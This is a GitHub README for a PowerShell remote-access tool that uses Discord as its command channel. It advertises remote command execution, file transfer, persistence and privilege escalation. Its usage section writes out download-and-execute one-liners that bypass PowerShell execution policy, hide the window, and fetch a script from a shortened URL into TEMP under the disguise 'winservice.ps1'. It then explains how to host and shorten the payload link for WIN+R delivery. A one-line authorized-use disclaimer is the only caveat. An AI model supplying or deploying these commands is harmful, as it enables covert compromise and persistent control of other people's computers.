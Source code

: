 # pwshdc-c2
A PowerShell Discord bot for remote command execution, in development

**Disclaimer**: This project should be used for authorized testing and educational purposes only.

## Features
- **Multiple Connections at the same time**
- **Execute PowerShell commands remotely**
- **File upload/download**
- **Add/Remove Persistence**
- **Privilege escalation**

## Usage
In cmd or powershell
```powershell
.\pwshdc.ps1 -tk 'bot-token' 'channel-id-from-server'
```

Or in a multi-step process for WIN+R execution

```powershell
powershell -NoP -Ep Bypass -Command "iwr -UseBasicParsing https://is.gd/zVzeNh -OutFile $env:TEMP\winservice.ps1; powershell -NoP -Ep Bypass -File $env:TEMP\winservice.ps1 -tk 'YOUR-TOKEN' -cid 'CHANNEL-ID'"
```

Put the Script from above in (https://raw-paste.vercel.app/), copy raw file link. Then paste the link into https://is.gd/ to make it shorter.

Then put this into WIN+R: 
```powershell
powershell -nop -ep bypass -W H -c "iwr https://YOUR-SHORTEN-LINK/ | iex"
```
